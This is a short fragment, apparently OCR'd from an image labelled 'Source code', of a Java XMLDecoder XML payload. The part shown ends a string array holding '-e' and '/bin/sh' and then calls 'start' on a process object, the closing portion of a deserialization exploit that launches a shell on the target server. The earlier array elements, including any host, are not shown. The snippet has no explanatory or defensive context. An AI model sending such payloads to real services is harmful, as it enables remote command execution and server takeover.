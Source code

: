 ```bash
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```
